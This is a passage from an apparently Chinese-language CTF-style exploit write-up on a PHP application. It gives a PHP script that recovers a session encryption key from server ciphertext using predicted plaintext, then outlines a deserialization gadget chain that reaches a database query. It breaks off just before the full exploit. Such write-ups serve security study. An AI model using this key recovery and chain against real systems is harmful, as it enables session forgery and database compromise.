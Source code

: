 那么接下来就可以写还原 key 的脚本了

```plain
<?php
$info = "%2595%259Cfs%25AF%25D9lon%2586%25D9%25C8%25D7%25D6%25A0%25A1%25A2%25CA%2594X%259D%25AC%259Ccg%259DS%2596i%259B%259B%25C7%2599%2598kp%2595%259Eg%2598%2598%25C7%25CA%259B%259A%2594lid%2593%2592%259B%2594i%25C3fh%2598c%2587p%25AC%259F%259Dn%2584%25A6%259E%25A7%25D9%259B%25A5%25A2%25CD%25D6%2585%259F%25D6qkn%2583ah%2599g%2592%255Ee%2591b%2587p%25AC%259F%2595j%259CU%25AC%2599%25D9%25A5%259F%25A3%25D2%25DA%25CC%25D1%25C8%25A3%259B%25A1%25CA%25A4X%259D%25A2%259Cal%2593g%259Bhk%2595%259Bm%259D%25B0";    //此段直接从目标服务器获取
$info = urldecode($info);  
$info = urldecode($info);  
$info = substr($info,64,32);   //此处提取预测的密文部分
function reverse($payload1,$payload2)  
{  
    $il = strlen($payload1);  
    $key= "";  
    $kl = 32;  
    for($i = 0; $i < $il; $i++)  
    {  
        $p = $i%$kl;  
        $key .= chr(ord($payload1[$i])-ord($payload2[$p]));  
    }  
    return $key;  
}  

echo reverse($info,':"sessionip";s:9:"127.0.0.1";s:1'); // sessionip";s:9:"127.0.0.1";s:1 为我们预测的明文部分
?>
```

输出结果为：**4b394f264dfcdc724a06b9b05c1e59ed**  
那么现在就写反序列化链子了  
题目给的源码中有几个点可以触发注入，但是能用的只有一个点，因为其他的 php 类没有被加载 (**或许可以在其他的路由下找到已经初始化好的，这里没去尝试**)，导致在反序列化时找不到对象，反序列化失败  
调用流程如下

```plain
session::__destruct()->pdosql::makeUpdate->pepdo::exec 中触发数据库查询
```

[![](assets/1707954732-7eaaa5f748f635faf8972f6f8de79931.png)](https://cdn.nlark.com/yuque/0/2024/png/21588480/1706869385256-8eb3ec37-04b1-4405-b556-f885446b563c.png#averageHue=%232a2d31&id=UxL6y&originHeight=402&originWidth=638&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  
完整的 exp 如下
